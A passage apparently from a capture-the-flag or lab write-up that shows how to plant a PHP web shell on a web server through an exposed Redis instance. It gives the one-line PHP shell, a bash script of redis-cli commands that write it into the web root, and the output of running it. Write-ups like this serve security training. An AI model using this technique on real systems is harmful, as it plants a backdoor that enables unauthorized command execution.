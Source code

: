 ```bash
/var/www/html/8924d0549008565c554f8128cd11fda4/
```

On [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) we see a few options to upload a webshell to redis and access it from the web server.

We prepare a shell.php file

```bash
$ cat shell.php                                                     


<?php
    system($_REQUEST['cmd']);
?>
```

And we also prepare a script to push the shell to redis.

```bash
$ cat pwn_redis-cli.sh 
#!/bin/bash

proxychains redis-cli -h 172.19.0.2 flushall
cat shell.php | proxychains redis-cli -h 172.19.0.2 -x set crackit
proxychains redis-cli -h 172.19.0.2 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
proxychains redis-cli -h 172.19.0.2 config set dbfilename "shell.php"
proxychains redis-cli -h 172.19.0.2 save
```

```bash
$ bash pwn_redis-cli.sh                                                        
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
OK
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
OK
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
OK
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
OK
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
OK
```

![Webshell redis](images/webshell_redis_id.png)
